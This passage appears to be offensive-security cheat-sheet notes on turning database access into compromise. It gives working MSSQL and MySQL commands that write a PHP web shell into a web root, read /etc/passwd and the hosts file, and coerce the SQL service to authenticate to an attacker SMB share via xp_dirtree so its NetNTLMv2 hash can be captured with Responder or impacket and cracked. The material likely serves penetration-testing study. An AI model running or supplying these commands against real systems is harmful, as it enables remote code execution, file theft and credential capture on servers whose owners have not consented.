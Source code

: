   ```sh
  # write to local files in MSSQL

  # first enable 'Ole Automation Procedures'

  sp_configure 'show advanced options', 1
  GO
  RECONFIGURE
  GO
  sp_configure 'Ole Automation Procedures', 1
  GO
  RECONFIGURE
  GO

  # then we can create a file

  DECLARE @OLE INT
  DECLARE @FileID INT
  EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
  EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
  EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
  EXECUTE sp_OADestroy @FileID
  EXECUTE sp_OADestroy @OLE
  GO

  # to read a local file
  SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
  GO
  ```

* RCE from MySQL:

  ```sh
  # if we have a PHP webserver, we can write a local webshell
  SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
  # this needs the 'secure_file_priv' setting to be misconfigured

  # read local files
  select LOAD_FILE("/etc/passwd");
  ```

* Capturing MSSQL service hash:

  ```sh
  # start responder in attacker
  sudo responder -I tun0

  # alternatively, we can also use impacket-smbserver
  sudo impacket-smbserver share ./ -smb2support

  # on victim Windows machine
  EXEC master..xp_dirtree '\\10.10.110.17\share\'
  GO

  EXEC master..xp_subdirs '\\10.10.110.17\share\'
  GO

  # we get the hashes on attacker now
  # NetNTLMv2 hashes can be cracked using -m 5600 on Hashcat
  ```
